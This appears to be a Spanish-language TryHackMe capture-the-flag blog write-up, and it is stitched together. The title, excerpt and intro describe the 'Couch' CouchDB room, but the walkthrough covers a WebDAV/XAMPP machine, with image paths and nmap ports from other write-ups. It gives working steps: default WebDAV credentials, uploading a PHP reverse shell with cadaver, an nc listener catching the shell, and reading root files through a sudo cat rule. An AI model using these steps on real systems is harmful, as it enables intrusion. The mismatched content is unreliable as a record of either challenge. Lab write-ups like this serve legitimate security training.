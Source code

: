 ```yaml
---
layout: single
title: Couch
excerpt: "Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge."
date: 2022-05-08
classes: wide
header:
  teaser: /assets/images/thm-writeup-couch/couch_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - couchdb
  - Web
  - Privilege escalation
---
```


![nmap](/assets/images/thm-writeup-couch/couch_logo.png)

[Link](https://tryhackme.com/room/couch "Couch")

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

---

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_whatweb.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puertos de red con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_nmap1.png)

---

- Escaeno de vulnerabilidades sobre los puertos: 22,111,139,445,873,2049,6379,34583,37021,37295,52355:

~~~css
nmap -sCV -T4 -p22,111,139,445,873,2049,6379,34583,37021,37295,52355 vuln.local --script vuln

└─#  nmap -v -A -sC -sV -Pn {ip} -p- --script vuln
~~~

---

- Revisión de la URL ***http://10.10.25.173:8080/***:

![url](/assets/images/thm-writeup-dav/dav_url.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt {ip}/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                         
=====================================================================
000037122:   401        14 L     54 W       460 Ch      "webdav"  
~~~

- Wfuzz encontró la misma ruta que el escaneo de vulnerabilidades con nmap ***webdav***.

---

## 4. Exploit

- Buscando contraseñas por defecto me encontré con la siguiente página que entrega una información importante ***<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>***

![url](/assets/images/thm-writeup-dav/dav_web3.png)

---

- Cadaver: utilizamos esta aplicación para ingresar al target, con el usuario y contraseña encontrados en el punto anterior, como se observa a continuación:

~~~css
cadaver http://10.10.39.111/webdav/ 
Autenticación requerida para webdav en el servidor '10.10.39.111':
Nombre de usuario: wampp
Contraseña: 
dav:/webdav/> ls
Listando colección `/webdav/': exitoso.
        passwd.dav                            44  ago 25  2019

~~~

- Cargamos un archivo de prueba:
  
~~~css
dav:/webdav/> put test.txt
Transferiendo test.txt a '/webdav/test.txt':
 Progreso: [                              ]   0,0% of 6 bytes Progreso: [=============================>] 100,0% of 6 bytes exitoso.

~~~

- Comprobamos que el archivo que previamente creamos en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_exploit_1.png)

- Descargamos  y configuramos una rshell desde la siguiente url: ***<https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php>*** en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_rshell.png)

- Cargamos la rshell siguiendo el mismo procedimiento:

~~~css
dav:/webdav/> put rshell.php
Transferiendo rshell.php a '/webdav/rshell.php':
 Progreso: [                              ]   0,0% of 5491 bytes Progreso: [=============================>] 100,0% of 5491 bytes exitoso.
~~~

- Nos ponemos en escucha por el puerto ***4444***, de acuerdo con la configuración de la rshell:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
~~~

- Ejecutamos la ***rshell.php***, entrando a la url target y abriendo este archivo:

![rshell](/assets/images/thm-writeup-dav/dav_rshell1.png)

dav_rshell1.png

- Obtenemos nuestra reverse shell como usuario ***www-data***:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
connect to [10.9.0.43] from (UNKNOWN) [10.10.39.111] 34204
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:43:11 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

- Tratamiento de la shell, con el siguiente comando:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

---

## 5. Bandera de usuario

- Nos dirigimos a la carpeta ***home*** en esta accedmos al usuario ***merlin*** y en está última encontramos el archivo ***user.txt***:

![usr](/assets/images/thm-writeup-dav/dav_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando ***sudo -l***, en el cual observamos el binario ***cat*** :



~~~css
www-data@ubuntu:/usr/lib/openssh$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

~~~

- Abusando del binario ***cat*** podemos leer la bandera root sin entregar las credenciales respectivas, ubicandonos en el archivo raíz y ejecutando el siguiente comando:

![root](/assets/images/thm-writeup-dav/dav_cat.png)

~~~css
www-data@ubuntu:/bin$ cd ..
cd ..
www-data@ubuntu:/$ ls
ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
??????
~~~

![root](/assets/images/thm-writeup-dav/dav_root.png)

---

## 7. Fuentes

- Exploit
<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>

- Cat
<https://gtfobins.github.io/gtfobins/cat/>
